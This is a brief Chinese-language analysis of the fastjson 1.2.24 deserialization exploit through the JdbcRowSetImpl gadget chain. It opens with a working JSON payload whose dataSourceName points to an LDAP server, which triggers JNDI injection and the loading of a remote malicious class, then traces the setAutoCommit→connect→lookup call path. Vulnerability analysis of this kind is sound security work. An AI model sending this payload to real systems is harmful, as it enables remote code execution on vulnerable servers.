


# fastjson 1.2.24 JdbcRowSetImpl链利用

```payload
{
"@type":"com.sun.rowset.JdbcRowSetImpl",
"dataSourceName":"ldap://127.0.0.1:1389/t9quin",
"autoCommit":true
}
```


## 利用流程图


## JdbcRowSetImpl利用链

在JdbcRowSetImpl.java中，通过**setAutoCommit**方法调用**connect**方法


在connect方法中，调用了lookup函数，从而触发jndi注入远程加载恶意类。


## fastjson触发利用链

在parse函数中调用parseObject，parseObject主要做字符串处理，在识别到**@type**字符串后，对其值执行**loadclass**操作，从而生成JdbcRowSetImpl类


config的getDeserializer方法会调用createJavaBeanDeserializer方法生成javabean反序列化器


在createJavaBeanDeserializer方法中通过build方法调用类的setter和getter方法

> fastjson 将 JSON 字符串反序列化到指定的 Java 类时，会调用目标类的setter、getter 等方法。会先调用setter方法，如果找不到setter方法则会调用getter方法。





随后通过反序列化函数deserialze调用setAutoCommit方法来触发connect方法以此触发lookup达成jndi注入。


